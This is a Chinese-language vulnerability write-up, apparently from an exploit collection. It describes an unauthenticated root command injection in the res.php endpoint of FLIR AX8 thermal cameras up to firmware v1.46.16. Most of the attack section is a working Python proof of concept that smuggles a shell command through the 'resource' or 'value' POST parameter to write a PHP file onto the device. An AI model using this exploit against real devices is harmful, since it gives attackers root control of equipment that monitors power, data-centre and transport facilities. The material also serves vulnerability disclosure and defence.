


<center><font size=7>FLIR-AX8 res.php 命令执行漏洞</center>

# 一、漏洞描述

FLIR AX8尺寸小巧，价格经济实惠，将红外热像仪和可见光相机合二为一，提供连续温度监控和报警功能。FLIR  AX8有助于您防止意外断电、非计划停机、服务中断和机电设备故障。FLIR  AX8尺寸紧凑且易于安装，能持续监测配电柜、加工和制造区域、数据中心、发电和配电设施、运输和公共交通，仓储设施和冷库。


FLIR AX8 Web服务存在未授权远程代码执行漏洞，攻击者通过漏洞可以获取设备权限，以root权限执行任意命令。

漏洞影响版本：

固件版本 <= v1.46.16

web组件版本 <= v1.0.7.20

# 二、定位漏洞点

在 www 目录下 res.php 程序接收 POST 方法请求，若存在 set 参数，并且提供一个 resource 参数和 value 参数，若 resource 的值不是 .rtp.hflip 和 .rtp.vflip 时，程序会将 resource  的值和 value 的值与 LD_LIBRARY_PATH=/FLIR/usr/lib /FLIR/usr/bin/rset 拼接执行，若 resource 或 value 中包含命令截断符，会造成命令注入。



# 三、漏洞利用&POC

POC：

```php
import requests
import sys
import urllib3
# disable https not verify warning
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

def verify(url):
    try:
        page = "res.php"
        target_url = url + "/" + page    
        headers = {
            'Host': url.strip("http://").strip("https://"),
            'Content-Type': 'application/x-www-form-urlencoded;charset=UTF-8',
        }
    
        # use resource
        data = {
            'action':'set',
            'resource': "1; echo '<?php phpinfo(); ?>' > temp.php",
            'value':'1'
        }

        # use value 
        '''
        data = {
            'action':'set',
            'resource': "1",
            'value': "1; echo '<?php phpinfo(); ?>' > temp.php"
        }
        '''
        response = requests.post(target_url,
                                 verify=False,
                                 data=data,
                                 headers=headers)
        print(response.text)
    except Exception as e:
        print(e)
            
if __name__ == '__main__':
    url = 'https://x.x.x.x'
    verify(url=url)
```

验证：




